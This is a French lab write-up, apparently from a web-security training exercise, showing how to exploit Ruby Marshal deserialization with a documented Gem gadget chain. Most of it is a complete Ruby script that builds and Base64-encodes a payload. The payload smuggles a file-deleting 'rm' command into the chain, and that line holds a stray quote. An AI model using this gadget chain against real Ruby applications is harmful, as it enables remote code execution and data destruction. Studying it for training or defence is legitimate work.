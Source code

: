 # Ruby deserialization using a documented gadget chain
- Même principe que la déserialisation PHP, sauf que là on utilise le langage Ruby comme intermédiaire.<br/>
## Reconnaissance
- Je laisse tourner burpsuite en arrière-plan pendant que je me login avec les identifiants précisés dans l'énoncé.<br/></br>
<img src="https://media.discordapp.net/attachments/768928242467340328/770030149490966548/unknown.png"/><br/><br/>
- Je check l'historique des requêtes et je sélectionne l'index où le procédé du login a été sérialisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770031231060017192/unknown.png?width=1195&height=890"/><br/><br/>
## Développement gadget 
- Pour commencer, un peu de théorie. Les termes utilisés par Ruby pour désigner la sérialisation et la désérialisation sont marshalling et unmarshalling.
- La classe Marshal a les méthodes de classe «dump» et «load» qui peuvent être utilisées comme suit:
```ruby
$ irb
izjosve@ijzosve:~$ irb

irb(main):001:1* class Person

irb(main):002:1*   attr_accessor :name

irb(main):003:0> end
=> nil

irb(main):004:0> p = Person.new

irb(main):005:0> p.name = "ijzosve"

irb(main):006:0> p
=> #<Person:0x000055b382dc13e8 @name="ijzosve">

irb(main):007:0> Marshal.dump(p)
=> "\x04\bo:\vPerson\x06:\n@nameI\"\fijzosve\x06:\x06ET"

irb(main):008:0> Marshal.load("\x04\bo:\vPerson\x06:\n@nameI\"\fijzosve\x06:\x06ET")
=> #<Person:0x000055b383081e98 @name="ijzosve">
```
<br/><br/>
- Pour le script qui génère et vérifie la désérialisation de la gadget chain j'ai utilisé cette documentation https://www.elttam.com/blog/ruby-deserialization/#content.<br/><br/>
```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|rm "home/carlos/morale.txt")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
<br/><br/>
- J'exécute.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770745566602723408/unknown.png?width=1205&height=336"/><br/><br/>
- On a notre gadget chain, maintenant on a plus qu'à le remplacer par le token de la requête.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770746126319878174/unknown.png?width=1274&height=392"/><br/><br/>
